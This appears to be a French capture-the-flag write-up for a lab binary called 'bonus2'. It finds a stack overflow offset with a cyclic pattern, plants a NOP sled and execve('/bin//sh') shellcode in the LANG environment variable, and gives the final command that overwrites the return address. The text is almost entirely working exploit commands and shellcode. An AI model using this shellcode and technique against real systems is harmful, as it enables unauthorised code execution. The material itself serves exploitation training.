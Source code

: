 # bonus2

run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab4Ag5Ag Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

0x08006241 pas d'offset

en changant la variable global LANG par fi
export LANG=fi
0x41366141 offset 18

# on va mettre notre shellcode dans la variable global LANG
export LANG=$(python -c 'print("fi" + "\x90" * 1000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')

# pour ensuite remplacer par une adresse dans les x90 de l'env

(gdb) b *main+134
(gdb) run $(python -c 'print "\x90" * 40') Aa

x/20s *((char**)environ)
0xbffffeb3:	 "LANG=fi" 
0xbffffeb3 + 40 = bffffedb

# pour finalement envoyer cela

./bonus2 $(python -c 'print "\x90" * 40') $(python -c 'print "\x90" * 18 + "\xdb\xfe\xff\xbf"')
